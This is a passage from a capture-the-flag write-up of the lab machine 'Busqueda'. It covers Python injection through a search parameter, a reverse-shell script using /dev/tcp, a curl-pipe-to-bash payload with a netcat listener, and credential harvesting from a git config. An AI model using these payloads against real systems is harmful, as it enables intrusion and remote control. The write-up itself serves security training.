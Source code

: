 This allows us to add not only our RCE code but to also fulfill the 2 parameter requirement of the `search` method (while commenting out the remaining code).

We can make this a reverse shell payload called `shell.sh` which will contain the following:
```vim
#!/bin/bash
bash -i >& /dev/tcp/<IP_ADDR>/<PORT> 0>&1
```

Host `shell.sh` on a simple python web server with `python -m http.server <PORT>` and then send the following payload in the http request (keep in mind to run `nc -lvnp <PORT>` to catch your reverse shell):

```json
engine=Google&query=',__import__('os').system('curl http://<IPR_ADDR>:<PORT>/shell.sh | bash')) #
```

This will give us the shell on the machine as the `svc` user. We can find the user flag in `/home/svc/user.txt`

## Privilege Escalation:

In the home directory of the `svc` user, we find a file called `.git_config`:

```vim
svc@busqueda:~$ cat .gitconfig 
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
```

In the `/var/www/app/.git/config` file we see the following:
```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

and if we run `ss -tunlp` and `cat /etc/hosts` we see the following:

```vim
svc@busqueda:~$ ss -tunlp
Netid             State              Recv-Q             Send-Q                         Local Address:Port                            Peer Address:Port             Process                                                                  
udp               UNCONN             0                  0                              127.0.0.53%lo:53                                   0.0.0.0:*                                                                                         
udp               UNCONN             0                  0                                    0.0.0.0:68                                   0.0.0.0:*                                                                                         
tcp               LISTEN             0                  128                                127.0.0.1:5000                                 0.0.0.0:*                 users:(("python3",pid=1665,fd=6),("python3",pid=1665,fd=4))             
tcp               LISTEN             0                  4096                               127.0.0.1:3306                                 0.0.0.0:*                                                                                         
```